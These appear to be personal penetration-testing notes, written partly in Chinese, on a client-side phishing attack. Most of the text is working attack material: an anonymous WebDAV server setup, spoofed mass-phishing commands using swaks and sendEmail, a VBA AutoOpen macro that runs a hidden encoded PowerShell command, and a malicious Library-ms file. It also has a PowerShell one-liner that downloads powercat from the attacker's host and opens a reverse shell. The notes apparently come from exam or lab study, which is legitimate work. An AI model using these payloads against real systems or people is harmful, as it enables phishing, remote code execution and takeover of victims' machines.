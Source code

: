 # Organize Attack

create Macros/lib-ms && .lnk/func payload -- [[4. Client-Side Attack#Preparation|Preparation]]⬇️
## 1. Start WebDav
```bash
pip install wsgidav
mkdir /home/ikan/webdav
cp config.Library-ms /home/ikan/webdav
wsgidav  --host=0.0.0.0 --port=80 --auth=anonymous --root /home/ikan/webdav/
```
## 2. Perp Powercat
```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python -m http.server 8000
```
## 3. Send Email
### swaks
```bash
$ while read mail; do swaks --to $mail --from IT@targetdomain.com –header "Subject: Credentials / Errors" –body "goto http://attackerIP/" –server x.x.x.x; done < mails.txt

#多目标
swaks -t victim1 -t victim2 ... --from IT@targetdomain.com --header "Subject: Credentials / Errors" –body @body.txt -attach @config.Library-ms --server x.x.x.x --suppress-data -ap

swaks -t $(cat emails | tr '\n' ',' | less) --from IT@targetdomain.com --header "Subject: Credentials / Errors" –body @body.txt -attach @config.Library-ms --server x.x.x.x --suppress-data -ap
```
### sendEmail
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a 
/tmp/malware.pdf

Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

# Preparation
## Office Macros
* 格式保存为.doc/.docm
* Enable Content


### Macros Payload
```vba
Sub AutoOpen()
       MyMacro
   End Sub
   Sub Document_Open()
       MyMacro
   End Sub
   Sub MyMacro()
       Dim Str As String
       '...str...concat...'
       CreateObject("Wscript.Shell").Run Str
   End Sub
```
## Windows LibFile Payload
***仅限单次使用，用完后该配置文件会被自动优化修改，不再具有可移植性。在其他机器上或重启后无法工作***
```xml
<!-- ...文件名：config.Library-ms... -->
<!-- ...Start from next... -->

<?xml version="1.0" encoding="UTF-8"?>
   <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
   <name>@windows.storage.dll,-34582</name>
   <version>6</version>
   <isLibraryPinned>true</isLibraryPinned>
   <iconReference>imageres.dll,-1003</iconReference>
   <templateInfo>
   <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
   </templateInfo>
   <searchConnectorDescriptionList>
   <searchConnectorDescription>
   <isDefaultSaveLocation>true</isDefaultSaveLocation>
   <isSupported>false</isSupported>
   <simpleLocation>
   <url>http://192.168.119.2</url> <!-- 此处 http://<localhost> -->
   </simpleLocation>
   </searchConnectorDescription>
   </searchConnectorDescriptionList>
   </libraryDescription>
```

## Reverse Shell
用于.lnk负载
```bash
IEX (New-Object System.Net.Webclient).DownloadString("http://<IP>/powercat.ps1");powercat -c <IP> -p <PORT> -e powershell
```
## [[File Upload Vulnerablity#Windows Reverse PowerShell|Kali Pwsh Encode Base64]]
用于vba Macros负载
```python
   text = 'powershell.exe -nop -w hidden -e {$Base64_EncodedText}' #填入base64_payload的编码
   n = 50
   
   for i in range(0, len(text), n):
   	print("Str = Str + " + '"' + str[i:i+n] + '"')
   ```
```vba
#...
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    '...'
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "
#...
```
   
